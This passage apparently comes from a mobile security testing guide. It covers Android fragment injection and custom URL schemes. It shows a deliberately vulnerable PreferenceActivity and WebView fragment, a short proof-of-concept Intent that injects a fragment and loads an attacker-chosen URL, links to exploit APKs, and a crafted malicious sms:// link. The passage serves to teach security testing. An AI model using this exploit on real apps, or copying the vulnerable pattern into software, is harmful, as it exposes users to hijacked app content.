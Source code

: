 ### Example of Vulnerable App and Exploitation

MainActivity.class

```java
public class MainActivity extends PreferenceActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
}
```

MyFragment.class

```java
public class MyFragment extends Fragment {
    public void onCreate (Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View v = inflater.inflate(R.layout.fragmentLayout, null);
        WebView myWebView = (WebView) wv.findViewById(R.id.webview);
        myWebView.getSettings().setJavaScriptEnabled(true);
        myWebView.loadUrl(this.getActivity().getIntent().getDataString());
        return v;
    }
}
```

To exploit this vulnerable Activity, you can create an application with the following code:

```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
Intent intent = i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

The [Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk) and [Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk) are available for downloading.

## Testing Custom URL Schemes \(MSTG-PLATFORM-3\)

### Overview

Both Android and iOS allow inter-app communication via custom URL schemes. These custom URLs allow other applications to perform specific actions within the application that offers the custom URL scheme. Custom URIs can begin with any scheme prefix, and they usually define an action to take within the application and parameters for that action.

Consider this contrived example: `sms://compose/to=your.boss@company.com&message=I%20QUIT!&sendImmediately=true`. When a victim clicks such a link on a mobile device, the vulnerable SMS application will send the SMS message with the maliciously crafted content. This could lead to
